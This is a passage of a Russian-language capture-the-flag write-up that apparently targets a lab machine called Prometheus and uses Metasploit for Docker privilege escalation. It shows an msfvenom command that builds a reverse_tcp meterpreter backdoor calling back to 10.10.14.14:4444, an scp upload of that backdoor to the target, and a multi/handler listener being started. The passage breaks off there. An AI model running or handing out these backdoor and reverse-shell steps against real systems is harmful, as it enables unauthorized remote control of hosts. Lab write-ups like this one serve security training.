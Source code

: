 Испробуем на этой машине Metasploit-модуль для повышения привилегий в системах с доступом к docker'y. Для этого нам потребуется:
  * бэкдор;
  * msf: `exploit/multi/handler`;
  * msf: `linux/local/docker_daemon_privilege_escalation`.

Для удобства я поднял ssh-master-соединение, а всякие бэкдоры перекидывал через ssh-slave, чтобы не простукивать порты каждый раз. Как настроить такое поведение SSH'а ("SSH Multiplexing") рассказывается, например, [здесь](https://en.wikibooks.org/wiki/OpenSSH/Cookbook/Multiplexing#Setting_Up_Multiplexing "OpenSSH/Cookbook/Multiplexing - Wikibooks, open books for an open world").

Крафтим бэкдор веномом:
```text
root@kali:~# msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f elf --platform linux -a x86 -o .sh3ll.elf
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
Saved as: .sh3ll.elf
```

Закидываем на прометея:
```text
root@kali:~# scp .shell.elf prometheus@10.10.10.83:.tmp/.sh3ll.elf
```

Поднимаем msf-хэндлер:
```text
msf > use exploit/multi/handler
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.14      yes       The listen address (an interface may be specified)
   LPORT  4444              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:4444
```
